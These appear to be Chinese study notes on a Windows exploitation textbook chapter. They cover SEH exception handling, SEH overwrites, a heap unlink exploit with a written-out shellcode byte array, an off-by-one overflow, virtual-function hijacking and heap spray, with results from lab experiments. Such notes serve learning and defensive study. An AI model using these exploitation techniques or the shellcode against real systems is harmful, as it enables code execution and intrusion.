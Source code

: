 # notes about chapter 6
## from 6.1
Windows针对异常会使用异常处理结构体SEH：  

|Dword:Next SEH Header（低地址）|SEH链表指针|
|------------------------|-------|
|Dword:Exception Handler（高地址）|异常处理函数句柄|

有关SEH的一些概念：
1. SEH结构体存放在系统栈中。
2. 当线程初始化，会向栈中安置一个SEH，作为线程的默认异常处理。
3. 如果程序源代码中使用了__try{}__except{}或者Assert 宏等异常处理机制，编译器将最终通过向当前函数栈帧中安装一个S.E.H 来实现异常处理。
4. 栈中会有多个SEH。
5. 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单向链表，链表顶端的SEH通过TEB 0字节的偏移的指针标识。
6. 当异常发生时，操作系统会中断程序，并首先从T.E.B 的0 字节偏移处取出距离栈顶最近的S.E.H，使用异常处理函数句柄所指向的代码来处理异常。
7. 当离“事故现场”最近的异常处理函数运行失败时，将顺着S.E.H 链表依次尝试其他的异常处理函数。
8. 当程序安装的所有SEH都处理不了，就使用（2中所述）默认的SEH，这时一般就会弹出错误对话框。  

![SEHInStack](./SEH.JPG)

由于SEH位于栈中，所以在有溢出的漏洞时，我们可以覆盖handle的address为shellcode的起始地址，而溢出后错误的栈桢或者堆块会触发异常，此时就会执行shellcode。

### exp in P205
这里的栈桢中的SEH：  

![expaddr](./expaddr.JPG)

这里我们的shellcode距离SEH的handle的地址为：212。  
填充完成后堆栈：  
![shellcode2](./shellcode2.JPG)  
![shellcode1](./shellcode1.JPG)  
可以看到我们已经把处理函数的地址覆盖为shellcode的起始地址了。然而我的win2003 server实验机没有出现弹窗，即win2003 server中加入了对SEH的安全校验，因此会导致实验失败。

### exp in 209
此时shellcode在堆块中的地址为0x00390688：  
![](./ds_1.JPG)  
shellcode构造如下:  
```
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x39\x00"//0x00390688 is the address of shellcode in first
//Heapblock
"\x90\x90\x90\x90";//target of DWORD SHOOT
```

这里的shellcode的块的起始地址为0x00390688，所以下一个堆块的块首地址就是0x00390688+200+8=0x00390750，flink的地址为0x00390750+8=0x00390758，blink地址为0x00390758+8=0x00390760：  
![ ](./ds_2.JPG)  

将flink地址填充为shellcode起始地址，将blink暂定为0x90909090，调试以后填为SEH的地址，这样就可以将shellcode地址填入SEH地址中，当异常产生，将调用shellcode。  

然后根据文档继续调试，到这里看到栈顶的SEH地址：  
![](./ds_3.JPG)

将blink地址填充为该地址，将int3去除，重新编译成release运行就可以看到弹窗跳出，这里由于是win2003，故实验失败。  

异常处理流程总体如下：
1. 首先使用栈顶的SEH中的handle去处理。
2. 失败了根据SEH链表一次执行后续的异常处理函数。
3. 都没有处理成功的话，执行**进程**中的异常处理。
4. 都失败了，系统默认的异常处理被调用，程序奔溃出现对话框。

异常处理函数一般有两个返回值：
1. 返回值为0：异常处理成功，返回原程序发生异常的地方，继续执行后续的指令。
2. 返回值为1：异常处理失败，顺着SEH继续尝试处理异常。

线程异常处理中的unwind操作：当顺着SEH找到合适的处理句柄时，系统将会对已经遍历过的SEH中的异常处理函数再调用一遍，目的是“通知”前边处理异常失败的SEH，系统已经准备将它们“遗弃”了，请它们立刻清理现场，释放资源，之后这些SEH结构体将被从链表中拆除。这可以避免当程序继续进行时，一系列的压栈操作后，前面的SEH被破坏，此时再发生异常，仍然会从前面的SEH开始寻求方法，这时候就可能发生错误。

线程发生的异常没有被线程的异常处理函数或者调试器处理，会最终交付给进程中的异常处理函数处理。进程中的异常处理函数得返回值：  
1. 返回值为1：错误得到正确处理，程序**退出**。
2. 返回值为0：无法处理错误，错误交付给系统默认异常处理。
3. 返回值为-1：错误得到正确处理，程序将继续进行。

当进行异常处理函数都无法处理时，系统默认的异常处理函数UnhandledExceptionFilter()会被调用，即所谓的UEF。这里windows相关的UEF配置一般就在注册表HKLM\SOFTWARE\Microsoft\WindowsNT\
CurrentVersion\AeDebug中配置。win10在\计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug中配置。

## from 6.2
offbyone：
```
void off_by_one(char * input)
{
    char buf[200];
    int i=0,len=0;
    len=sizeof(buf);
    for(i=0; input[i]&&(i<=len); i++)
    {
    buf[i]=input[i];
}
    ……
}
```  
这里的代码产生了数组越界，使得我们可以控制一个字节的地址。如果缓冲区的后面就是EBP，那我们就可以控制EBP的最后一个字节，从而在[0,255]（[0x00,0xFF]）的范围内移动EBP，然后劫持到shellcode的地方即可。

这里调试了下，本来的想法就是将ebp劫持到shellcode某个地方，然后后面接shellcode起始地址为EIP，调试后发现只修改一个字节是劫持不到的：  
![](./offbyone.JPG)

可以看到再加一个字节的data也远到不了ebp的位置。

## from 6.3
调试结果如下：  
![1](./attack_virtual.JPG)  
运行后，虚函数定位到了0x0040881C，也就是shellcode的起始地址：  
![2](./success1.JPG)  

## from 6.4
简单来说就是用nop区域覆盖掉0x0C0C0C0C，然后当EIP运行到这里的时候，就会继续往下走，走到shellcode的地方。